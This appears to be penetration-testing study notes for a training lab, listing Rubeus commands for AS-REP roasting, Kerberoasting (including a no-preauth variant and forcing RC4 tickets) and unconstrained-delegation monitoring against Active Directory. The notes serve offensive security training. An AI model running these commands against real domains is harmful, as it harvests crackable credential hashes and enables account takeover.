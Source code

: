 ### AS-REPRoasting
```powershell
Rubeus.exe asreproast /format:hashcat # Enumeration
Rubeus.exe asreproast /user:Target.user /domain:inlanefreight.local /dc:dc01.inlanefreight.local /nowrap /outfile:hashes.txt # Attack
```

---
### kerberosting
```
Rubeus.exe kerberoast /nowrap
```

| Option                         | Description                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| ------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `/outfile:filename.txt`        | write the result to a file.                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| `/pwdsetafter` `/pwdsetbefore` | Kerberoast accounts whose password was set within a particular date                                                                                                                                                                                                                                                                                                                                                                                                       |
| `/stats`                       | list statistics about Kerberoastable accounts without sending any ticket requests. This can be useful for gathering information and checking the types of encryption the account tickets use.                                                                                                                                                                                                                                                                             |
| `/tgtdeleg`                    | useful for us in situations where we find accounts with the options `This account supports Kerberos AES 128-bit encryption` or `This account supports Kerberos AES 256-bit encryption` set, meaning that when we perform a Kerberoast attack, we will get a `AES-128 (type 17)` or `AES-256 (type 18)` TGS tickets back which can be significantly more difficult to crack than `RC4 (type 23)` tickets. we can use `/tgtdeleg` flag with Rubeus to force RC4 encryption. |
#### Kerberoasting without an Account Password
```batch
Rubeus.exe createnetonly /program:cmd.exe /show
Rubeus.exe kerberoast REM Error we need 
Rubeus.exe kerberoast /nopreauth:amber.smith /domain:inlanefreight.local /spn:MSSQLSvc/SQL01:1433 /nowrap
```
**Note:** Instead of `/spn` we can use `/spns:listofspn.txt` to try multiple SPNs.

| Option          | Description                                   |
| --------------- | --------------------------------------------- |
| `createnetonly` | utilize its CMD window to perform the attack. |

---

### Uncostrained delegation
```
.\Rubeus.exe monitor /interval:5 /nowrap
```
